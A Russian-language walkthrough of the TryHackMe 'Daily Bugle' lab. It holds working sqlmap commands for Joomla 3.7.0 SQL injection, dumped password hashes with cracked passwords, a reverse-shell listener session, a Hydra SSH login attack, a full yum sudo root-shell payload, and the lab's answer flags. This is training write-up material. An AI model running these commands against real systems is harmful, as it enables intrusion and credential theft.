




# TryHackMe - Lin Hard - DailyBugle

📅 Дата: 2025-07-07  
🧠 Сложность: Hard  
💻 IP-адрес: 10.10.172.90  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -Pn --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.172.90 && nmap_ctf $ip
```

### nmap

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (95%), Linux 3.16 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.003 days (since Mon Jul  7 05:52:40 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
```

### robots.txt
```bash
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

---

## 🕵️ Enumeration

Для версии 3.7.0 Joomla! есть эксплоит sqlmap и есть скрипт python конкретно для выполнения данного ctf
### sqlmap


Уязвимый параметр `list[fullordering]`
`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Предлагаемая команда
```bash
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Но `boolean-based blind` и `time-based blind` будут долго обрабатываться, поэтому немного скорректировал команду
```bash
sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE --dbs -p list[fullordering]
```

В результате нашел 5 баз данных
```bash
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```

**mysql db tables**
```bash
sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE -D mysql --tables -p list[fullordering]
```
```bash
Database: mysql
[24 tables]
+---------------------------+
| event                     |
| host                      |
| plugin                    |
| user                      |
| columns_priv              |
| db                        |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| ndb_binlog_index          |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
+---------------------------+
```

У таблицы `user` 42 колонки, меня интересует `User` `Password`
```bash
Database: mysql
Table: user
[6 entries]
+--------+
| User   |
+--------+
| root   |
| root   |
| root   |
| root   |
|
|
+--------+

Database: mysql
Table: user
[6 entries]
+-------------------------------------------+
| Password                                  |
+-------------------------------------------+
| *B04E65424026AC47B5626445B67352EBEFD78828 |
|
|
|
|
|
+-------------------------------------------+
```

Делаю дамп таблицы `#__users` из бд `joomla`
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE -D joomla -T \#__users --dump -p list[fullordering]

Database: joomla
Table: #__users
[1 entry]
+-----+---------------------+------------+---------+--------------------------------------------------------------+----------+
| id  | email               | name       | params  | password                                                     | username |
+-----+---------------------+------------+---------+--------------------------------------------------------------+----------+
| 811 | jonah@tryhackme.com | Super User | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+---------------------+------------+---------+--------------------------------------------------------------+----------+
```

python exploit также дал имя пользователя и hash
`>> 811 ||| Super User ||| jonah ||| jonah@tryhackme.com ||| $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

Далее можно попытаться взломать с помощью hashcat
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ hashcat -m 3200 -a 0 hash.txt /media/sf_Exchange/Dictionaries/rockyou.txt 
```

Но я, по совету, воспользовался hashes.com
`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123`

## 📂 Получение доступа

Имея логин `jonah` и пароль `spiderman123`, захожу в jommla control panel  


Загружаю php reverse shell  


И получаю доступ
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.154.91] 37978
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 00:28:30 up  2:08,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ pwd
/
pwd
sh-4.2$ whoami
whoami
apache
```

## ⚙️ Привилегии

linPEAS выдал пароль в файлах  


И он подошел к ранее найденному хэшу
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ cat hash_mysql.txt
*B04E65424026AC47B5626445B67352EBEFD78828

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ cat pass.txt      
nv5uz9r3ZEDzVjNu
spiderman123
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ john --wordlist=./pass.txt hash_mysql.txt
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 SSE2 4x])
No password hashes left to crack (see FAQ)
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ john --show hash_mysql.txt               
?:nv5uz9r3ZEDzVjNu

1 password hash cracked, 0 left
```

И есть 1 пользователь в /home
```bash
ls -la /home
total 0
drwxr-xr-x.  3 root     root      22 Dec 14  2019 .
dr-xr-xr-x. 17 root     root     244 Dec 14  2019 ..
drwx------.  2 jjameson jjameson  99 Dec 15  2019 jjameson
```

Проверяю креды
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ hydra -l jjameson -P ./pass.txt -t 2 ssh://10.10.130.255
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-08 03:43:42
[DATA] max 2 tasks per 1 server, overall 2 tasks, 2 login tries (l:1/p:2), ~1 try per task
[DATA] attacking ssh://10.10.130.255:22/
[22][ssh] host: 10.10.130.255   login: jjameson   password: nv5uz9r3ZEDzVjNu
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-08 03:43:48
```

И получаю доступ по ssh для jjameson
```bash
[jjameson@dailybugle ~]$ ls -la
total 16
drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```

### sudo -l
```bash
[jjameson@dailybugle ~]$ sudo -l
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Эксплуатация описана тут: `https://gtfobins.github.io/gtfobins/yum/`  
В данном случае нужно это:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Но придется руками копировать и вставлять построчно - не вариант.  
Следующий код достаточно просто скопировать и вставить:
```bash
TF=$(mktemp -d) && \
echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
echo -e "[main]\nenabled=1" > "$TF/y.conf" && \
echo -e "import os\nimport yum\nfrom yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE\nrequires_api_version='2.1'\ndef init_hook(conduit):\n  os.execl('/bin/sh','/bin/sh')" > "$TF/y.py" && \
sudo yum -c $TF/x --enableplugin=y
```

И получаю root
```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d) && \
> echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
> echo -e "[main]\nenabled=1" > "$TF/y.conf" && \
> echo -e "import os\nimport yum\nfrom yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE\nrequires_api_version='2.1'\ndef init_hook(conduit):\n  os.execl('/bin/sh','/bin/sh')" > "$TF/y.py" && \
> sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
```

## 🏁 Флаги

- User flag: 27a260fe3cba712cfdedb1c86d80442e 
- Root flag: eec3d53292b1821868266858d7fa6f79 

---
